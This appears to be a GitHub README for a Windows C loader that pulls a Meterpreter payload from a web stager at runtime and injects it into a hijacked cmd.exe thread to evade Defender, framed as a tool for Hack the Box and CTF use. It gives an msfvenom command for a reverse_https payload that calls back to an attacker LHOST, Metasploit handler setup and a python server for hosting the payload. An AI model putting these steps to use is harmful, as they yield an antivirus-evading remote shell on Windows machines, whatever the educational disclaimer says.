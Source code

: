 # 🎯 Meterpreter Payload Exectuion ~ CTF 

A lightweight Windows C application developed using **Visual Studio**. This project aims to execute a Meterpreter payload with Defender enabled. The purpose is to use this exe on harder Hack the Box machines. This approach helps bypass Defender, although some Meterpreter functionalities may still be flagged. This solution results from work done after following **MALDEV Academy** — a fantastic course that helped me reach this level.

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fetches the shell code at runtime and will avoid some common signatures by not storing the shell code on disk.
- I then create a suspended process, "cmd.exe" and then hijack a thread of that process to execute the shell code


## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time and then call back with a Meterpreter payload on a different port. The steps below are for setup.


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for your local machine that is hosting Metasploit
```

2. Open Metasploit


 ```bash
# In a different terminal setup Metasploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. Setup the python server

``` bash
# In the same directory as the payload and a different terminal as Metasploit, run the following commands
python3 -m http.server 8080
``` 

4. Below is a screenshot of what your terminal should look like

![alt text](image.png)


### 🛠️ Build Instructions

1. Clone the repository:

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for your Kali machine. Make sure the port used hosts the Python server.

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

5. Below are screenshots of the output

- Executing the payload on the target
![alt text](image-1.png)

- A callback,, then a Meterpreter shell
![alt text](image-2.png)

## 📚 Credits

- **MALDEV Academy** — [maldevacademy.com](https://maldevacademy.com)  
  A fantastic resource for learning malware development techniques.
  
- **Offensive Security Community** — [offensive-security.com](https://www.offensive-security.com)  
  The community behind Kali Linux and other offensive security tools.

- **Metasploit** — [metasploit.com](https://www.metasploit.com)  
  A powerful framework for developing and executing exploit code against remote target machines.


---
